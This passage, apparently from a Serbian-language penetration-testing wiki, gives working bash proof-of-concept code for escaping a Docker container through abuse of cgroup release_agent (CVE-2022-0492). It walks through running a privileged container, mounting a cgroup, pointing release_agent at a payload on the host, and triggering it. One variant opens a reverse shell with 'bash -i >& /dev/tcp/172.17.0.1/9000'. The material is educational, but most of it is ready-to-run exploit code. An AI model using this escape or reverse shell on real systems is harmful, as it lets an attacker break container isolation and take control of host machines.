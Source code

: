 ```bash
# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```

#### Zloupotreba stvorenog release\_agent-a za eskalaciju privilegija ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC2

{% code title="Drugi PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% endcode %}
